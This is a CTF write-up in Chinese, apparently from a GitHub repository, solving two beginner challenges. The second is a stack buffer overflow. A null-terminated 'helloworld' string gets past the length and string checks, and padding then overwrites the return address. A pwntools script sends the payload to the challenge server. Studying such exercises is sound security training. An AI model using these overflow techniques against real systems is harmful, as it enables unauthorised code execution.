 # CTF

## helloworld

### Sol:
因為前面有一個紅色的$這是shell的符號，所以可以直接執行Linux指令找到flag

### Result:
<img width="524" height="305" alt="image" src="https://github.com/user-attachments/assets/6b35a5ba-d879-4c51-b8e7-1812a732c089" />
<img width="597" height="198" alt="image" src="https://github.com/user-attachments/assets/bac3afe4-f50e-4d45-aefd-42d223560aa8" />


## helloworld_again

### Description:
用IDA按F5，會進行反組譯，可以看到此題共有兩個保護機制：
1. 輸入字串不可大於48bytes(`strlen(s) > 0x30`)
2. 輸入字串必須是helloworld(`strcmp(s, "helloworld")`)

<img width="802" height="876" alt="image" src="https://github.com/user-attachments/assets/4b9628e3-b9ed-4b11-ab6c-03d9ddac6525" />


<img width="831" height="235" alt="image" src="https://github.com/user-attachments/assets/7794688b-c1be-4ff8-9047-78baa02fba0e" />

### Sol:
因此我們的payload需要具備以下條件
1. 包含'helloworld'字串
2. 字串大小不可大於48bytes
3. 必須在buffer塞入48bytes的資料(引發overflow)再加上8bytes把caller的ebp覆蓋掉，最後還有我們想要return的位址

透過objdump我們發現可以使用的address在0x40125b

<img width="504" height="78" alt="image" src="https://github.com/user-attachments/assets/1f48f30b-6974-42da-baaa-90a168df6e80" />

接續我們善用`\0`代表字串結尾的特性，設計了以下的payload：`b'helloworld\x00' + b'A'*0x25 + b'B'*8 + p64(helloworld)`
透過`\x00`結束字串輸入，讓程式讀取時能判讀到helloworld字串以及字串長度不超過48bytes，後續透過A把剩餘的buffer填滿，B把caller的ebp覆蓋再加上我們想要return的位址p64(helloworld)
### Code:
```
from pwn import *

context.arch = 'amd64'

p = remote('ctf.adl.tw', 10001)

helloworld = 0x40125b

payload = b'helloworld\x00' + b'A' * 0x25 + b'B' * 8 + p64(helloworld) 


p.sendline(payload)


p.interactive()
p.close()
```
<img width="576" height="324" alt="image" src="https://github.com/user-attachments/assets/c4add646-b159-4afe-9991-588a48753a18" />
